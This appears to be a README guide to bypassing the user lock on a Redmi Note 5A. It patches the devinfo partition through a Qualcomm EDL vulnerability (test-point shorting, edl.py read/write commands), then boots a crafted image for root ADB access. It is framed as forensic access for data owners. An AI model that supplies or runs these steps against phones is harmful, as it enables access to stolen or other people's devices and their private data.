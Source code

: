 # Redmi Note 5A (Bypass user lock)
## Storage based Attack - using EDL Programmers

This is just a guide to anybody who has the right (by being the owner of the data for example) to access files stored in a Redmi Note 5A (MDG6). To accomplish this task, we will be using the vulnerability described here [Storage based Attack - using EDL Programmers](https://alephsecurity.com/2018/01/22/qualcomm-edl-2/). The first tool we need was made by [Reverse Engineer Bjoern Kerler](https://github.com/bkerler/edl). The seccond tool is the specially crafted boot image made by AlepthSecurity Team, which can be found [here](https://github.com/alephsecurity/firehorse). **Basically, bootloader will be unlocked, then it will be possible to boot the specially crafted boot image with fastboot (without flashing). At the end, you might want to relock your bootloader**


## Risks
This procedure was tested on Redmi Note 5A, model MDG6, with Android 7.1.2 N2G47H, security patch 2019-08-01, with MIUI Global 11.0.3. A very small portiona will be written (devinfo partition) and for what I know/tested it's easy to recover if anything goes wrong. Besides that, it's needless to say that you are doing it at your own risk.

## Setup 
#### Debian based system
```bash
sudo apt install adb fastboot python3-dev python3-pip liblzma-dev git
sudo apt purge ModemManager

git clone https://github.com/bkerler/edl.git
cd edl
git submodule update --init --recursive
sudo cp Drivers/51-edl.rules /etc/udev/rules.d
sudo cp Drivers/50-android.rules /etc/udev/rules.d
sudo python3 -m pip install -r requirements.txt
```

## Creating EDL (Emergency Download Mode)
1. Take off the back cover
2. Disconnect the battery cable (make sure it's fully charged)
4. Connect USB Cable to the device (do not connect to the Linux Based Station yet)
5. Enter edl project you've just cloned from [bkerler](https://github.com/bkerler/edl.git) (cd edl). Type ./edl.py (make sure you have python working correctly). You should see some dots being printed in your terminal, do not connect the phone yet.
7. Test Points showned in the following image must be shortened with a tweezers for a second or two, at the same time you plug USB cable to the PC. 

![EDL](./images/redmi-note-5a-EDL-commented.png)

## Unlocking your device
1. Dump devinfo partition
```bash
./edl.py r devinfo devinfo.img
```
2. Make a copy and patch the file with an Hex Editor
```bash
cp devinfo.img devinfo-unlocked.img
wxHexEditor devinfo-unlocked.img 
```
3. Change bytes 0x10 and 0x18 from 0x00 to 0x01 (see picuture)

![EDL](./images/redmi-note-5a-EDL-unlocked-devinfo.png)

4. Write devinfo
```bash
./edl.py w devinfo devinfo-unlocked.img
```

## Security bypass
1. You should be able to see a small message while leaving EDL mode meaning that your device just had been unlocked.
2. Turn it off and enter FASTBOOT MODE by pressing power + volume down.
3. While in fastboot mode do the following
```bash
fastboot boot boot-ugglite-root.img
#wait for the device to turn on
adb devices... #should be able to have root access
```
